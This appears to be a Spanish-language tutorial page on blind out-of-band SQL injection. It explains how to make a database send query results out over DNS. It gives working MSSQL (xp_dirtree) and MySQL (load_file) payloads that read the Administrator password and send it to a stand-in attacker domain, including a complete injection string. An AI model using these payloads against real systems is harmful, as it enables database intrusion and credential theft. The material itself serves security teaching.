 ```yaml
---
layout: default
title: 4.4 Fuera de banda
permalink: /injection_types/blind/oob_type
nav_order: 4
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas con interacción fuera de banda

Una SQLi ciega **fuera de banda** (*out-of-band*, *OOB*) implica enviar la información consultada a través de **un canal diferente** al utilizado para la interacción con la aplicación. Por ejemplo, el atacante puede utilizar comandos SQL que envíen información a través de una **conexión de red directa**, una **solicitud DNS** o una **solicitud HTTP**. Una vez que el atacante ha enviado la inyección, debe esperar a recibir la respuesta de la base de datos **en el canal alternativo** elegido.

En otras palabras, hay que obligar al DBMS no solo a generar una respuesta, sino también a abrir un canal alternativo de comunicación.

![Out of band diagram](/test-page/assets/oob.png)

Para ejemplificar un caso de ataque se analiza un escenario con *Microsoft SQL Server* y el canal alternativo será por medio del **protocolo DNS**. Usualmente este método es efectivo ya que muchas redes permiten salida libre de consultas DNS, debido a **su importancia en el funcionamiento de los sistemas** de producción. El método para construir la consulta se apoya en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet).

Asumiendo un punto de inyección como los de las secciones anteriores donde se puede escribir una consulta arbitraria, se considera el siguiente fragmento de *payload*:

```sql
exec master..xp_dirtree '//dominio.atacante.net/x'
```

Este SQL ejecuta un procedimiento almacenado de MSSQL llamado `xp_dirtree`, cuyo parámetro es el texto `'//dominio.atacante.net/x'`. `xp_dirtree` sirve para listar carpetas del sistema operativo y el parámetro **debería** ser una ruta como `C:/`. Sin embargo, abusando de la implementación de `xp_dirtree` (**si la versión y configuración del DBMS lo permiten**) esto **resultaría en una petición DNS para que el DBMS pueda obtener la IP** de `dominio.atacante.net`. Si se tiene control del servidor DNS que responde por ese dominio, se pueden obtener las consultas DNS hechas.

Herramientas como [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) cumplen este propósito, proveyendo un dominio público utilizable en este tipo de ataques y al que se pueden consultar los pedidos recibidos (HTTP y DNS). Este se encuentra disponible junto con la licencia de BurpSuite Professional, una alternativa gratuita puede ser [Interactsh](https://github.com/projectdiscovery/interactsh).

Si se recibe la consulta DNS, el siguiente paso es **agregar el resultado de una consulta al propio dominio**. Por ejemplo con la siguiente secuencia de sentencias SQL:

```sql
declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.dominio.atacante.net/x"')
```

Esto puede resultar en un pedido DNS, iniciado por el DBMS, recibido por el servidor del atacante, consultando por la IP de `47b7bfb65fa83ac9a71dcb0f6296bb6e.dominio.atacante.net`. En este ejemplo, `47b7bfb65fa83ac9a71dcb0f6296bb6e` es un hash MD5 del texto `Passw0rd!`.

El *payload* completo que podría aplicar a este ejemplo es:

```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.dominio.atacante.net/x"')--
```

Un ejemplo de fragmento de SQL análogo para MySQL sería:

```sql
SELECT load_file(CONCAT(
    '\\\\',
    (SELECT password FROM users WHERE username='Administrator'),
    '.',
    'dominio.atacante.net\\test.txt'))
```

La función `load_file()` carga archivos del sistema de archivos del DBMS, al intentar resolver la ruta de un archivo remoto `test.txt`, pide por DNS la IP del dominio indicado.